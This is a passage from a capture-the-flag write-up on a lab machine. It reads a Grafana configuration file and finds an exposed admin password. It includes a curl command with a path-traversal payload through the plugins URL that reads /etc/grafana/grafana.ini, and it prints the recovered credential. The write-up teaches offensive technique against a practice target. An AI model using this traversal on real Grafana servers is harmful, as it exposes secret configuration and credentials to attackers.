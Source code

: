     # Either "mysql", "postgres" or "sqlite3", it's your choice
    ;type = sqlite3
    ;host = 127.0.0.1:3306
    ;name = grafana
    ;user = root
    # If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
    ;password = 
    

It turns out, this is just the [default
config](https://github.com/grafana/grafana/blob/main/conf/defaults.ini). I can
try logging into MySQL with root and no password, but it doesn’t work:

    
    
    oxdf@hacky$ mysql -u root -p -h 10.10.11.183
    Enter password: 
    ERROR 1045 (28000): Access denied for user 'root'@'10.10.14.6' (using password: NO)
    

The “Security” section has a bunch of stuff that’s commented out with `;`, but
the `admin_password` is not:

    
    
    #################################### Security ####################################
    [security]
    # disable creation of admin user on first start of grafana
    ;disable_initial_admin_creation = false             
    
    # default admin user, created on startup
    ;admin_user = admin             
    
    # default admin password, can be changed before first start of grafana,  or in profile settings
    admin_password = messageInABottle685427
                                                        
    # used for signing                               
    ;secret_key = SW2YcwTIb9zpOOhoPsMm
    

Another way to look at this is to use `grep` to remove anything that starts
with `#` (comment), `;` (comment), or `[` (start of section).

    
    
    oxdf@hacky$ curl --path-as-is -s http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini | grep -v "^[#;\[]" | grep .
    admin_password = messageInABottle685427
    